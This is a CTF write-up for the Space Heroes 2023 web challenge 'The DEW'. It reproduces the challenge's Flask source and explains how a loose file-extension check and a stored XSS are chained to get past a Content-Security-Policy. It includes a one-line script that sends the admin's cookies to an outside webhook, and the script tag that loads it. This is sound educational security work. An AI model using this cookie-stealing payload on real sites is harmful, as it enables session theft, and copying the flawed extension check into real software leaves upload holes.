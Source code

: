 ```yaml
---
title: Space Heroes 2023 Megathread
date: 2023-04-23
description: Collection of writeups from the Space Heroes 2023 CTF
tags: [writeups, ctfs]
---
```


This CTF I played with `Space Heroes International Team`, a team consisting mostly of people in ARESx and some from Emu Exploit. We placed 2nd place in open division and 1st place in the student division!

I had a lot of fun in this CTF and am looking forward to it next year!

This won't be a list of all the challenges I solved, just ones I think were really cool and would be fun to do a writeup for.

# The DEW

{{< zoom-img src="img/the-dew-chall.png" >}}

From exploring the site, we find two interesting functionalities, being able to upload images and a comment system.

Messing with the comment system a bit we find that it's vulnerable to XSS, although what good is XSS without an admin bot?

Looking at the source of the page, we find a comment pointing us to the `/source` path.

{{< zoom-img src="img/the-dew-html-source.png" >}}

Going to this path gives us the python flask script running on the server

```python
#https://www.w3schools.com/howto/howto_css_blog_layout.asp
#https://flask.palletsprojects.com/en/latest/patterns/fileuploads/
import os
import redis
import subprocess
from uuid import uuid4
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
from flask_socketio import SocketIO, emit
from werkzeug.utils import secure_filename

UPLOAD_FOLDER = os.path.abspath('../') + '/images/'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif'}

app = Flask(__name__)

limiter = Limiter(
	get_remote_address,
	app=app,
	default_limits=["30 per minute"]
)

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['SECRET_KEY'] = 'secret!'

socketio = SocketIO(app)

comments = []

def allowed_file(filename):
   return '.' in filename and filename.rsplit('.')[1].lower() in ALLOWED_EXTENSIONS

@app.after_request
def add_security_headers(resp):
	resp.headers['Content-Security-Policy']="default-src 'self' https://*.jquery.com https://*.cloudflare.com;  object-src 'none';"
	return resp

@socketio.on('submit comment')
def handle_comment(data):
	comments.append("<p class=\"comment\"><strong>" + data['author'] + ":</strong> " + data['comment'] + "</p>");
	emit('new comment', broadcast=True)

@socketio.on('waive admin')
def waive_admin():
	subprocess.run(['python','admin.py'])

@app.route('/', methods=['GET'])
def news():
	if 'flag' in request.cookies:
		return render_template('/news.html', comments=comments)
	else:
		resp = make_response(render_template('/news.html', comments=comments))
		resp.set_cookie('flag','if only you were the admin lol')
		return resp

@app.route('/upload', methods=['GET','POST'])
def upload():
	if request.method == 'POST':
		if 'file' not in request.files:
			flash('No file part')
			return render_template('/upload.html',message='No file uploaded :(')
		file = request.files['file']
		if not file:
			flash('No file data')
			return render_template('/upload.html',message='No file uploaded :(')
		if file.filename == '':
			flash('No selected file')
			return render_template('/upload.html',message='Filename can\'t be empty, silly!')
		if allowed_file(file.filename):
			filename = session['uuid'] + secure_filename(file.filename)
			print(filename)
			file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
			return render_template('/upload.html',message=f'Image uploaded successfully to /images/{filename}!')
		else:
			return render_template('/upload.html',message='Bad file type detected! Only .png, .jpg, .jpeg, and .gif allowed!')
	return render_template('/upload.html')

@app.route('/images/<name>', methods=['GET'])
def download_file(name):
	return send_from_directory(app.config["UPLOAD_FOLDER"], name)


@app.route('/source',methods=['GET'])
def show_source():
	return render_template('server_code.py')

if __name__=='__main__':
	app.run(host="0.0.0.0",port=31337)
```

Theres a decent bit going on in this script so I'll just point out he interesting parts.

The first interesting bit of code is the `allowed_file` function.
```python
def allowed_file(filename):
   return '.' in filename and filename.rsplit('.')[1].lower() in ALLOWED_EXTENSIONS
```

This function doesn't properly check the extension because it makes the assumption the uploaded file will only have one dot. If we were to input something like `bad.png.js` our fille will still be uploaded since it only checks if the `png` is in `ALLOWED_EXTENSIONS`

This seems bad, but so far theres no way to get the flag just with this vulnerability. We're going to need to look for more to chain.

The next interesting functionality in this script is the `waive_admin` function.
```python
@socketio.on('waive admin')
def waive_admin():
	subprocess.run(['python','admin.py'])
```

We're not given the source of admin, so I made an educated guess that it would visit the homepage, with the flag cookie being actually set to the flag. I'm not really a fan of having to guess that it would do this, but I didn't see any way to look into admin.py so it was my only option.

## CSP?

Now that we know there is an admin bot that can read the comments we put, and we also know that the comments are vulnerable to XSS, the final exploit should be easy right? Not quite. The page has CSP set so that scripts can only come from `self`, `https://*.jquery.com`, or `https://*.cloudflare.com`. So if we can't just wrap our exploit in the script tag, what can we do? That's where our file upload vulnerability comes into play.

We are able to upload our malicious JS script onto the server, allowed it to be served by the website itself and therefore getting around the CSP set in place.

## The final chain

First we upload our malicous JS script to the server.
```js
document.location="<webhook url>?"+document.cookie;
```
Then we submit our comment with this payload
```html
<script src="/images/<file name>"></script>
```
Then press the `waive admin` button and we'll see the flag in our webhook logs.

{{< zoom-img src="img/the-dew-webhook-result.png" >}}

Flag: `shctf{w3_a11_l1v3_und3r_th3_DOMe}`
